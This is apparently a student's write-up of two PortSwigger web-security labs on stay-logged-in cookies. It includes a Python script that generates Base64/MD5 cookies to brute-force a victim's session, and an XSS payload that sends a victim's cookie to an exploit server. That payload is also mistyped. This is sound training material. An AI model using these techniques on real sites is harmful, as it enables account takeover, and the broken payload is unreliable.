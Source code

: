 
---

## Keeping Users Logged-In

A common feature is the option to stay logged in even after closing a browser session. This is usually a simple checkbox labeled something like Remember me. 

This functionality is often implemented by creating a remember me token, which is then stored in a persistent cookie. A user possessing this cookie effectively allows him/her to bypass the entire login process, it is best practice for this cookie to be impossible to guess. However, some websites generate this cookie based on a predictable concatenation of static values, such as the username and a timestamp. Some even use the password as part of the cookie. This approach is particularity dangerous if an attacker is able to create their own account because they can study their own cookie and know how it is being generated. Once they know the formula, they can try to brute-force other user's cookies.

Some websites assume that if the cookie is encrypted in some way it will not be guessable even if it does use static values. While this may be true if done correctly, naively "encrypting" the cookie using a simple two-way encoding like Base64 offers no protection whatsoever. Even using proper encryption with a one-way hash function is not completely bulletproof. If the attacker is able to easily identify the hashing algorithm, and no salt is used, they can potentially brute-force the cookie by simply hashing their wordlists. This method can be used to bypass login attempt limits if a similar limit isn't applied to cookie guesses.

Even if the attacker can't create their own account, they may still be able to exploit this vulnerability. Using techniques such as XSS, an attacker could steal another user's remember me cookie and know how the cookie is being generated. If the website was built using an open-source framework, the key details of the cookie construction may even been publicly documented.

---

## LAB (Brute-forcing a stay-logged-in cookie)

This lab allows users to stay logged in even after they close their browser session. The cookie used to provide this functionality is vulnerable to brute-forcing.

To solve the lab, brute-force Carlos's cookie to gain access to his **My account** page.

- Your credentials: `wiener:peter`
- Victim's username: `carlos`
- [Candidate passwords](https://portswigger.net/web-security/authentication/auth-lab-passwords)

To solve the lab, we need to first login with our user's credentials and capture the remember me or keep me logged-in cookie. If we try to decode it by using Base64, we will find that the cookie value starts with our username next to ":", like so: wiener:. The string next to this is in fact our password encoded using MD5 hash. Now, since we know how the cookie is being created, we can struct the remember me cookie for our victim. First we need to hash the list of passwords that we are given using MD5. Next, we will concatenate  the hash with the username of our victim. Finally, we will encode the whole thing using Base64. 

We can do that by Python scripting: 
```
import hashlib
import base64

#read the file of passwords and turn into md5 hash
cookie_key="carlos:"
hashes=[]
with open ('passwords.txt','r') as file:
	for password in file:
		password=password.strip()
		md5_hash=hashlib.md5(password.encode()).hexdigest()
		hashes.append(md5_hash)
		

#create the cookie for carlos
for h in hashes:

	cookie=cookie_key+h

	#Convert the string into bytes and encode it

	encoded_cookie=base64.b64encode(cookie.encode('utf-8'))

	#Turn the bytes into a normal string:
	cookie=encoded_cookie.decode("utf-8")

	print (cookie)

```

This will allow us to brute-force the value of the cookie.

In the request that we captured that contains the cookie value, we will remove the session value and replace the username with carlos and put a payload placement for the cookie value. We will eventually get a successful login.

---

In rare cases, it may be possible to obtain a user's actual password in clear text from a cookie, even if it is hashed. If the hash of the password was not salted, it is easy to search for the clear text of the hash.

---

## LAB (Offline password cracking)

This lab stores the user's password hash in a cookie. The lab also contains an XSS vulnerability in the comment functionality. To solve the lab, obtain Carlos's `stay-logged-in` cookie and use it to crack his password. Then, log in as `carlos` and delete his account from the "My account" page.

- Your credentials: `wiener:peter`
- Victim's username: `carlos`

This is a XSS vulnerable lab. To solve this lab, we first need to login using our user credentials. Then, we will click on the go to exploit server. This page will have the url of the location we will direct the info of the target which includes their remember me cookie value. 

We will first test if the website is vulnerable to XSS. To do this, we will run this payload on a comment for any of the posts: `<script>alert(1)</script>` If we posted this comment and refreshed the page, we will get an alert. This shows that the website is vulnerable to XSS attacks.

To get our target's remember me cookie value, we will post this payload as a comment: `<script>document.location'(exploit server URL)'+docment.cookie</script>`

After we post this as a comment, we will go to the exploit server and we click on Access log. We will get the remember me cookie value. We will get the password the same way we got it from the last lab.


